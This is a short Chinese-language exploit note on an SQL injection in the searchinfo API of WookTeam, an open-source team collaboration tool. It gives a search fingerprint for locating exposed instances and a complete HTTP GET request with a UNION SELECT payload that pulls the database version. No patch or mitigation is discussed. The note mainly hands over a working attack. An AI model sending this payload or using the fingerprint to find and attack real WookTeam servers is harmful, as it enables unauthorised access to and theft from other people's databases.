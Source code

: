 # WookTeam searchinfo存在SQL注入漏洞

# 一、漏洞简介
WookTeam是一款轻量级的开源在线团队协作工具，提供各类文档协作工具、在线思维导图、在线流程图、项目管理、任务分发、即时IM，知识库管理等工具。WookTeam接口searchinfo存在SQL注入漏洞

# 二、影响版本
+ WookTeam 

# 三、资产测绘
```plain
title="Wookteam"
```

![1723565393982-8aeb7f0d-5fe1-4076-a035-5aed15fa18e4.png](./img/JZaYfNdClRdp56X9/1723565393982-8aeb7f0d-5fe1-4076-a035-5aed15fa18e4-952469.png)

# 四、漏洞复现
```plain
GET /api/users/searchinfo?where[username]=1%27%29+UNION+ALL+SELECT+NULL%2CCONCAT%280x7e%2Cversion%28%29%2C0x7e%29%2CNULL%2CNULL%2CNULL%23 HTTP/1.1
Host: 
```

![1723565359190-f3c20851-b4e8-45d4-8716-b8b370ef4c3c.png](./img/JZaYfNdClRdp56X9/1723565359190-f3c20851-b4e8-45d4-8716-b8b370ef4c3c-341062.png)



> 更新: 2024-09-05 23:21:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ocbt8satalaaymlq>